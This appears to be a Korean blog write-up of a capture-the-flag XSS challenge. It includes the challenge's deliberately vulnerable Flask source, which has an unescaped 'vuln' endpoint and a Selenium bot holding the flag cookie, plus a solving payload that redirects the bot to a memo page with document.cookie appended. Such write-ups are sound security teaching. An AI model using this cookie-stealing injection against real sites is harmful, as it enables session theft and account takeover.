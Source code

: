 ```yaml
---
title:  "28.XSS-1"
excerpt: "28.XSS-1"
categories:
  - wargame
tags:
  - wargame
  - Webhacking
last_modified_at: 2021-12-29
toc: true
toc_sticky: true
---
```


# Question info.
여러 기능과 입력받은 URL을 확인하는 봇이 구현된 서비스입니다.  
XSS 취약점을 이용해 플래그를 획득하세요. 플래그는 flag.txt, FLAG 변수에 있습니다.

# Function analysis
![28_1](/assets/images/wargame/28_1.PNG)  

![28_2](/assets/images/wargame/28_2.PNG)  

![28_3](/assets/images/wargame/28_3.PNG)  

![28_4](/assets/images/wargame/28_4.PNG)  

vuln(xss) page 링크를 클릭하면 Alert창이 뜨면서 1이 나온다.  
``vuln?param=<script>alert(1)</script>``  
memo 링크를 클릭하면 hello가 입력된다.  
``memo?memo=hello``  
flag 링크를 클릭하면 인자를 입력하는 페이지가 나온다.

# Code analysis
```python
#!/usr/bin/python3
from flask import Flask, request, render_template
from selenium import webdriver
import urllib
import os

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"


def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome("/chromedriver", options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True


def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)


@app.route("/")
def index():
    return render_template("index.html")


@app.route("/vuln")
def vuln():
    param = request.args.get("param", "")
    return param


@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'


memo_text = ""


@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo=memo_text)


app.run(host="0.0.0.0", port=8000)


```

```python
from selenium import webdriver

def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome("/chromedriver", options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True
```

왜? Selenium을 사용했을까?  
selenium은 동적 웹을 스크래핑할 때 사용하는 라이브러리이다.  
chromedriver를 이용해서 크롬 창을 띄운 뒤 마우스로 스크래핑하듯 모두 긁는다.  
``driver.get("http://127.0.0.1:8000/")``  
서버 측에 브라우저를 연다.

```python
try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"
```

FLAG값은 flag.txt에 들어 있다.

```python
def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)
```

check_xss는 flag링크에서 파라미터를 입력하고 '제출'을 누르면 실행되는 함수다.  
보면 서버 측 브라우저에 파라미터 값이 넘어가서 실행되는 것을 알 수 있다.






# Solve

이 문제는 서버 쪽에서 실행된 브라우저를 조작하여 flag값을 얻는 문제였다.  
서버 측 브라우저에게 memo 페이지로 접근하게 하고 서버 측 쿠키값을 memo 페이지에 적도록 유도하는 문제이다.
memo 페이지에 계속 쌓이는 값들은 html 파일에 그대로 축적되는 것이라서 서버에 그대로 적용된다.  
그래서 서버나 클라이언트가 memo 페이지에 접근해도 값이 그대로 남아 있게 된다.  

![28_5](/assets/images/wargame/28_5.PNG)  

flag 페이지에서 파라미터로  

```html
<script>window.location.href="http://127.0.0.1:8000/memo?memo="+document.cookie;</script>
```

을 넣으면 된다.

![28_6](/assets/images/wargame/28_6.PNG)  

memo 페이지로 가서 확인해보면 flag값이 나와 있다.






